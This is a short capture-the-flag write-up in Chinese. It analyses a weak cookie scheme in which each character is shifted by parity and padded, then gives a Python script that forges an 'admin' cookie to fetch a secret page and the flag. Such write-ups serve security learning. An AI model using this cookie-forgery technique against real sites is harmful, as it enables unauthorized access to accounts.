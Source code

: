 cookie看起来是随机的，但是仔细分析就可以发现每次登录改变的只有偶数位的字符，奇数位的不变，如登录用户`abc`，得到cookie`_wd3ab`

```
a = _ + 2
b = d - 2
c = a + 2
```

cookie的加密逻辑也就是逐位判断奇偶，然后加上一个随机字符，最后脚本如下

```python
import requests

def encrypt(s):
    res = ""
    for i in s:
        if ord(i)%2 == 0:
            res += chr(ord(i) + 2)
        else:
            res += chr(ord(i) - 2)
        res += "a"
    return res

def main():
    url = "" + "secret.jsp"
    cookies = {"usr" : encrypt("admin")}
    res = requests.get(url, cookies=cookies)
    print(res.text[15:43])

if __name__ == "__main__":
    main()
```
得到flag
```
flag{you_f1nd_adm1n_3ecret!}
```